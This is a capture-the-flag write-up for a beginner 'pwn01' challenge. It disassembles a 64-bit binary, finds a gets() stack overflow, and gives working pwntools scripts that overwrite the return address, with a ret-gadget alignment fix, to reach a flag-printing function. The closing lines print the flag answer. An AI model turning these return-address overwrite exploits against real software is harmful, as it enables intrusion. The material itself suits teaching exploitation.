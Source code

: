 Pwn01
=

Can you return my flag here?

Artifact Files:
[pwn01.zip](./pwn01.zip)

### Author: @mrerror0790 (community)

Quick Overview
=

This is just a basic program that seems to take our input and terminate ! Let's see 
how it works under the hood and if we have potential vulnerabilities

## Running the binary

```
┌───────────────────────────────────────────────────────────────────────┐
│ ██████╗ ██╗   ██╗ █████╗ ██████╗ ██╗  ██╗     ██████╗████████╗███████╗│
│██╔═══██╗██║   ██║██╔══██╗██╔══██╗██║ ██╔╝    ██╔════╝╚══██╔══╝██╔════╝│
│██║   ██║██║   ██║███████║██████╔╝█████╔╝     ██║        ██║   █████╗  │
│██║▄▄ ██║██║   ██║██╔══██║██╔══██╗██╔═██╗     ██║        ██║   ██╔══╝  │
│╚██████╔╝╚██████╔╝██║  ██║██║  ██║██║  ██╗    ╚██████╗   ██║   ██║     │
│ ╚══▀▀═╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝     ╚═════╝   ╚═╝   ╚═╝     │
└───────────────────────────────────────────────────────────────────────┘
Yo hackers give me the address to find out my way ............!
>qsdqsd

(binary terminated)
```

Information Gathering
=

The file is an ELF 64 executable (LSB) and the following securities are applied
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   67 Symbols	  No	0	
```

Seems we got lucky, there is no canary or PIE but NX is enabled and since libc wasn't given it's unlikely
to be ret2libc or shellcode injection.

Code
=

Reverse Engineering tool : **radare2**


Listing the functions in the binary we get this list : 
```
0x00401080    1     42 entry0
0x004010c0    4     31 sym.deregister_tm_clones
0x004010f0    4     49 sym.register_tm_clones
0x00401130    3     28 sym.__do_global_dtors_aux
0x00401160    1      2 sym.frame_dummy
0x00401290    1      1 sym.__libc_csu_fini
0x00401294    1      9 sym._fini
0x00401162    1     37 sym.way_out
0x00401040    1      6 sym.imp.puts
0x00401050    1      6 sym.imp.system
0x00401230    4     93 sym.__libc_csu_init
0x004010b0    1      1 sym._dl_relocate_static_pie
0x00401187    1    154 main
0x00401030    1      6 sym.imp.putchar
0x00401070    1      6 sym.imp.fflush
0x00401060    1      6 sym.imp.gets
0x00401000    3     23 sym._init
```

we get a lot of standard functions and the main function of the binary but also **sym.way_out**

**way_out**:
```asm
│           0x00401162      55             push rbp
│           0x00401163      4889e5         mov rbp, rsp
│           0x00401166      bf08204000     mov edi, str.Yo_buddy_you_got_me_out..._ ; 0x402008 ; "Yo buddy you got me out...!" ; const char *s
│           0x0040116b      e8d0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401170      bf24204000     mov edi, str._bin_cat_flag.txt ; 0x402024 ; "/bin/cat flag.txt" ; const char *string
│           0x00401175      e8d6feffff     call sym.imp.system         ; int system(const char *string)
│           0x0040117a      bf36204000     mov edi, 0x402036           ; '6 @' ; "\n" ; const char *s
│           0x0040117f      e8bcfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401184      90             nop
│           0x00401185      5d             pop rbp
└           0x00401186      c3             ret
```

Seems like the way_out function prints "Yo buddy you got me out...!" and read the flag file.
This seems like we're gonna have to make the program return to this function somehow.

Now let's check the main function for vulnerabilities.

**main**:
```asm
│           0x00401187      55             push rbp
│           0x00401188      4889e5         mov rbp, rsp
│           0x0040118b      4883ec30       sub rsp, 0x30 // Allocates 48 bytes on the stack
│           0x0040118f      897ddc         mov dword [rbp-0x24], edi    ; argc
│           0x00401192      488975d0       mov qword [rbp-0x30], rsi    ; argv
│           0x00401196      bf38204000     mov edi, 0x402038           ; '8 @' ; const char *s
│           0x0040119b      e8a0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011a0      bf18214000     mov edi, str._______________ ; 0x402118 ; const char *s
│           0x004011a5      e896feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011aa      bfd8214000     mov edi, str.________       ; 0x4021d8 ; const char *s
│           0x004011af      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011b4      bfa8224000     mov edi, str.________________________ ; 0x4022a8 ; const char *s
│           0x004011b9      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011be      bf58234000     mov edi, str.______________________ ; 0x402358 ; const char *s
│           0x004011c3      e878feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011c8      bf08244000     mov edi, str._____________________ ; 0x402408 ; const char *s
│           0x004011cd      e86efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011d2      bfc0244000     mov edi, str.__________________________ ; 0x4024c0 ; const char *s
│           0x004011d7      e864feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011dc      bf68254000     mov edi, str.               ; 0x402568 ; const char *s
│           0x004011e1      e85afeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011e6      bf48264000     mov edi, str.Yo_hackers_give_me_the_address_to_find_out_my_way_............_ ; 0x402648 ; "Yo hackers give me the address to find out my way ............!" ; const char *s
│           0x004011eb      e850feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011f0      bf3e000000     mov edi, 0x3e               ; '>' ; 62 ; int c
│           0x004011f5      e836feffff     call sym.imp.putchar        ; int putchar(int c)
│           0x004011fa      488b054f2e00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404050:8]=0
│           0x00401201      4889c7         mov rdi, rax                ; FILE *stream
│           0x00401204      e867feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x00401209      488d45e0       lea rax, [rbp-0x20]
│           0x0040120d      4889c7         mov rdi, rax                ; char *s
│           0x00401210      b800000000     mov eax, 0
│           0x00401215      e846feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      c9             leave
└           0x00401220      c3             ret
```

As we can see here arguments are being copied on the stack:
- argc -> rbp-0x24 (int64_t)
- argv -> rbp-0x30 (8 bytes pointer since this is x64)

And there is a 32 bytes char buffer left to fill the rest of the stack.
Then the program prints a whole bunch of text for the banner and asks
us for input ! 

Now the big red flag is that it's using the function **gets()** which is incredibly famous
for being absolutely trash since it generates buffer overflows like a charity for hackers.

Since we have a 32 bytes buffer, any input over 32 will start writing memory on the stack.
Considering that rbp is pushed on the stack at the start of the function the return address
RIP will jump to after the main function executes is stored at offset **40** from the start of our
buffer.

Now we have all the ingredients for a juicy overflow:
- Buffer overflow in the main frame
- the offset to overwrite RIP
- the address of the function to read the flag

Building the exploit
=

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Running this does print the first message of the way_out function
but seems like we fucked up the stack too much for it to call system afterwards.

A common trick I use in order to fix stacks for function calls
is calling a *ret* gadget on the function address which should rebuild a "healthy" stack around the function call

Using **ROPgadget** we find this, 0x0000000000401016 : ret

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
ret_gadget =  0x401016
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(ret_gadget)
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Now running the exploit we get this :
```
[~/Documents/CTF-Writeups/HackEnvision/pwn01]$ ./exploit.py REMOTE
quarkCTF{i7s_34sY_70_r37uN_0n_f14g}
```

And we got out flag! 

`quarkCTF{i7s_34sY_70_r37uN_0n_f14g}`

